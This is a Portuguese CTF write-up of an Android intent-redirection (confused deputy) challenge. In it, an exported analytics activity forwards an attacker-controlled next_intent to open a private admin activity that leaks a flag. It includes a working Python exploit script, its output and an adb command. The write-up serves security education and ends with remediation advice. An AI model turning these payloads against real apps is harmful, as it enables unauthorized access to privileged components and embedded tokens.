

# Phantom Thread | Fluid Attacks CTF 2026

`mobile` `android` `intent-redirection` `confused-deputy` `exported-activity`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Mobile |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O app tem uma `AdminPanelActivity` privada (`exported=false`, protegida por permissão) que, ao abrir, busca a flag num endpoint usando um `ADMIN_TOKEN` embutido. Eu não consigo lançá-la de fora (dá 403). Mas o SDK de analytics expõe uma `AnalyticsRedirectActivity` (`exported=true`) que lê um extra `next_intent` e faz `startActivity(next)` com a identidade do próprio app. Isso é intent redirection: eu mando um intent para a activity exportada carregando, dentro do `next_intent`, o alvo `AdminPanelActivity`. O app abre a activity privada por mim, ela busca a flag e pronto.

> [!IMPORTANT]
> **Ideia-chave:** um componente exportado que repassa um intent fornecido pelo atacante (`getParcelableExtra("next_intent")` + `startActivity`) é um confused deputy: ele empresta os privilégios do app para lançar componentes que o atacante não poderia tocar diretamente.

## Enunciado

> FluidMessenger, a secure Android messenger. The admin panel is private.

**Arquivos / instância:** o app decompilado (`com.fluidctf.messenger`) e um endpoint que simula o resolvedor de intents do Android em `/api/intent/send`. Na minha instância o host era `d0e8d6da104e26fb.chal.ctf.ae`.

## Dicas progressivas

<details><summary>Dica 1</summary>A <code>AdminPanelActivity</code> é <code>exported=false</code>. Quem, dentro do app, consegue lançá-la, e aceita instruções de fora?</details>
<details><summary>Dica 2</summary>A <code>AnalyticsRedirectActivity</code> é exportada e repassa um <code>next_intent</code> que você controla.</details>
<details><summary>Dica 3</summary>Mande um intent para <code>AnalyticsRedirectActivity</code> com <code>extras.next_intent.component = com.fluidctf.messenger.AdminPanelActivity</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`). Num device real seria `adb shell am start` com o extra `next_intent`; aqui o desafio expõe o resolvedor como uma API HTTP.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=https://d0e8d6da104e26fb.chal.ctf.ae
```

Na minha instância era esse host. Use o da sua (o script lê `TARGET`).

## Resolução

### 1. Revisão do Manifest e das activities

#### `AndroidManifest.xml`

```xml
<!-- Admin panel (PRIVATE - not exported) -->
<activity android:name=".AdminPanelActivity"
          android:exported="false"
          android:permission="com.fluidctf.messenger.permission.ADMIN" />

<activity android:name=".sdk.AnalyticsRedirectActivity"
          android:exported="true" />
```

A `AdminPanelActivity` é privada e protegida por permissão. A `AnalyticsRedirectActivity` é pública. Olhando o que a admin faz:

#### `AdminPanelActivity.java`

```java
URL url = new URL(BuildConfig.API_BASE_URL + "/api/admin/flag");
conn.setRequestProperty("X-Admin-Token", BuildConfig.ADMIN_TOKEN);   // token embutido
// ...e mostra a resposta na tela (a flag)
```

Ou seja: quem conseguir abrir a `AdminPanelActivity` ganha a flag, porque o token admin está no próprio app. Falta uma forma de abri-la sem ter a permissão.

#### `sdk/AnalyticsRedirectActivity.java`

```java
private void handleRedirect() {
    Intent incoming = getIntent();
    Intent next = incoming.getParcelableExtra("next_intent");   // intent vindo de fora
    if (next != null) {
        startActivity(next);                                    // lançado COM a identidade do app
    }
}
```

Aqui está o furo: a activity exportada pega um `Intent` inteiro de um extra controlado pelo atacante e o executa. Como quem chama `startActivity` é o app (que *tem* a permissão ADMIN), a `AdminPanelActivity` abre normalmente.

> [!TIP]
> **Conceito: Intent Redirection (confused deputy).** Quando um componente exportado encaminha um `Intent` embutido (`getParcelableExtra`/`getIntent().getExtras()`) para `startActivity`/`startService`/`sendBroadcast`, ele age como um "deputado confuso": usa a autoridade dele a mando de outro. Isso contorna `exported=false` e permissões, porque a checagem de permissão olha quem chama (o app), não quem originou o pedido (o atacante). Referência: [Android App Security: Intent Redirection](https://developer.android.com/privacy-and-security/risks/intent-redirection).

### 2. Exploração

O desafio simula o resolvedor de intents em `POST /api/intent/send`, que recebe `{component, extras}`. Primeiro testei o acesso direto (baseline), que o resolvedor recusa por não ser exportado, e depois o redirect. Script completo, idêntico ao arquivo em `scripts/`:

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
import json
import os
import re
import requests

# Alvo do desafio. Pode ser sobrescrito por variável de ambiente TARGET.
TARGET = os.environ.get("TARGET", "https://d0e8d6da104e26fb.chal.ctf.ae").rstrip("/")

# Endpoint que simula o Android intent resolver.
URL = f"{TARGET}/api/intent/send"

# Regex padrão para capturar flag no corpo das respostas.
FLAG_RE = re.compile(r"flag\{[^}\r\n]+\}", re.IGNORECASE)

# Lista de payloads com formatos diferentes de next_intent.
# A ideia é descobrir como o simulador representa um Parcelable Intent dentro do JSON.
PAYLOADS = [
    (
        "controle: tentativa direta no AdminPanelActivity",
        {
            "component": "com.fluidctf.messenger.AdminPanelActivity",
            "extras": {}
        }
    ),
    (
        "redirect: next_intent com component full_name",
        {
            "component": "com.fluidctf.messenger.sdk.AnalyticsRedirectActivity",
            "extras": {
                "next_intent": {
                    "component": "com.fluidctf.messenger.AdminPanelActivity"
                }
            }
        }
    ),
    (
        "redirect: next_intent com component relativo",
        {
            "component": "com.fluidctf.messenger.sdk.AnalyticsRedirectActivity",
            "extras": {
                "next_intent": {
                    "component": ".AdminPanelActivity"
                }
            }
        }
    ),
    (
        "redirect: next_intent com formato package/class",
        {
            "component": "com.fluidctf.messenger.sdk.AnalyticsRedirectActivity",
            "extras": {
                "next_intent": {
                    "component": "com.fluidctf.messenger/.AdminPanelActivity"
                }
            }
        }
    ),
    (
        "redirect: next_intent com package e class separados",
        {
            "component": "com.fluidctf.messenger.sdk.AnalyticsRedirectActivity",
            "extras": {
                "next_intent": {
                    "package": "com.fluidctf.messenger",
                    "class": "com.fluidctf.messenger.AdminPanelActivity"
                }
            }
        }
    ),
    (
        "redirect: next_intent como string full_name",
        {
            "component": "com.fluidctf.messenger.sdk.AnalyticsRedirectActivity",
            "extras": {
                "next_intent": "com.fluidctf.messenger.AdminPanelActivity"
            }
        }
    ),
]

def post_payload(label, payload):
    print()
    print("=" * 90)
    print(label)
    print("=" * 90)

    print("[*] Payload:")
    print(json.dumps(payload, indent=2, ensure_ascii=False))

    response = requests.post(
        URL,
        headers={"Content-Type": "application/json"},
        json=payload,
        timeout=15,
        verify=False,
    )

    print()
    print("[*] Status HTTP:", response.status_code)
    print("[*] Corpo:")
    print(response.text)

    # Salva cada tentativa em JSONL para consulta posterior no writeup.
    with open("loot/script1_results.jsonl", "a", encoding="utf-8") as f:
        f.write(json.dumps({
            "label": label,
            "payload": payload,
            "status_code": response.status_code,
            "body": response.text,
        }, ensure_ascii=False) + "\n")

    match = FLAG_RE.search(response.text)
    if match:
        flag = match.group(0)
        print()
        print("[+] FLAG ENCONTRADA:", flag)

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        return True

    return False

def main():
    os.makedirs("loot", exist_ok=True)

    # Limpa resultados antigos desta rodada.
    open("loot/script1_results.jsonl", "w", encoding="utf-8").close()

    print("[*] Target:", TARGET)
    print("[*] Endpoint:", URL)

    for label, payload in PAYLOADS:
        if post_payload(label, payload):
            print("[+] Flag salva em flag.txt")
            return

    print()
    print("[-] Nenhuma flag encontrada nesta rodada.")
    print("[*] Próximo passo: analisar as mensagens de erro para ajustar o formato do next_intent.")

if __name__ == "__main__":
    # Desativa apenas o warning visual do verify=False em ambiente CTF.
    requests.packages.urllib3.disable_warnings()
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
==========================================================================================
controle: tentativa direta no AdminPanelActivity
==========================================================================================
[*] Status HTTP: 403
{"error":"Activity 'com.fluidctf.messenger.AdminPanelActivity' is not exported. Cannot be launched from external intent.", ...}

==========================================================================================
redirect: next_intent com component full_name
==========================================================================================
[*] Status HTTP: 200
{"activity":"com.fluidctf.messenger.AdminPanelActivity","api_response":{"data":"flag{1f76a5452fcXXXXX}","endpoint":"/api/admin/flag"},"result":"Admin panel accessed successfully.","status":"launched"}
[+] FLAG ENCONTRADA: flag{1f76a5452fcXXXXX}
```

A primeira tentativa (lançar a admin direto) é barrada com um 403 explícito: "is not exported". A segunda, passando pela `AnalyticsRedirectActivity` com `next_intent`, abre a admin e devolve a flag. O contraste entre as duas é o ponto do desafio.

Num device real, o equivalente seria (de um app atacante ou via `adb`):

***INSERIR no terminal: shell no device (adb)

```bash
am start -n com.fluidctf.messenger/.sdk.AnalyticsRedirectActivity --es next_intent_component com.fluidctf.messenger.AdminPanelActivity
```

(A forma exata do extra depende de como o `next_intent` é desserializado; o importante é que o `Intent` embutido aponte para a activity privada.)

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que `exported=false` + permissão protegem a `AdminPanelActivity`. Essas proteções valem contra chamadas *diretas* de fora, mas não contra um componente interno que lança intents em nome do app. A `AnalyticsRedirectActivity` executa um `Intent` arbitrário fornecido pelo atacante, então a checagem de permissão vê "o próprio app chamando o próprio app" e libera. A primitiva é lançar qualquer componente interno, e o impacto é a flag, porque a admin carrega o token privilegiado embutido.

## Remediação

- Nunca repassar um `Intent` vindo de fonte não confiável para `startActivity`. Se precisar de redirect, validar que o destino está numa allowlist de componentes do próprio app e que não é um componente sensível.
- Usar `Intent.URI_ANDROID_APP_SCHEME`/`setPackage` e remover flags perigosas (`FLAG_GRANT_*`).
- Não embutir `ADMIN_TOKEN` no app.

## Lições e padrões

- **Sinais para reconhecer:** componente `exported=true` que faz `getParcelableExtra(...Intent...)`, `getIntent().getExtras()`, ou lê uma URI e chama `startActivity`/`startService`/`sendBroadcast`. Combine com qualquer componente sensível `exported=false`.
- **Da próxima vez eu tentaria primeiro:** mapear no Manifest o que é exportado, procurar por "redirect"/"proxy"/"deeplink"/"analytics" nos nomes, e nesses procurar o encaminhamento de intent. O alvo é sempre o componente privado mais interessante.

## Referências

- [Android: Intent redirection](https://developer.android.com/privacy-and-security/risks/intent-redirection)
- [OWASP MASTG: Testing for Intent Redirection](https://mas.owasp.org/MASTG/tests/android/MASVS-PLATFORM/MASTG-TEST-0029/)

## Flag

```text
flag{1f76a5452fcXXXXX}
```
